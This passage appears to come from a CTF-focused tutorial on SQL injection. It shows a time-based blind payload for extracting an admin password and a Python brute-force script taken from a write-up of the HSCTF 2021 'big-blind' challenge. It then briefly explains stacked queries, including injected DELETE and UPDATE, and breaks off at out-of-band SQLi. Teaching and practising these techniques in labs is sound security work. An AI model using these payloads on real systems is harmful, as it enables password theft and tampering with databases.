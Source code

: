 `Christian_C' UNION SELECT CASE WHEN (username='admin' AND password LIKE 'a%') THEN SLEEP(5) ELSE 1 END FROM users -- `. If the first letter of the admin's password is `a`, the response will be delayed by 5 seconds.

#### Example Challenge: big-blind HSCTF 2021 solved by [bluebear](https://github.com/MOCSCTF/CTF-Write-UP/blob/master/Web/HSCTF8%20-%20big-blind/README.md)
```python
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
        print(query)
        return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print(x)
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'
```

### Batched/stacked queries
In the previous injections, we always stayed "consistent" with the query chosen by the programmer. Finding `SELECT` in the code, we simply exfiltrated data by "stretching" the instruction. However, it's possible to use `;` to terminate the statement, allowing us to then insert any type of instructions, including `DELETE`, `UPDATE` (update), `INSERT` (create).

In our case, the opposite may be useful: we may want to close an `UPDATE` to inject a `SELECT`, in order to steal the flag.

### Out of band SQLi
If there is no synchronous output available, but command execution is allowed, we can opt for an out-of-band SQLi. In MySQL:
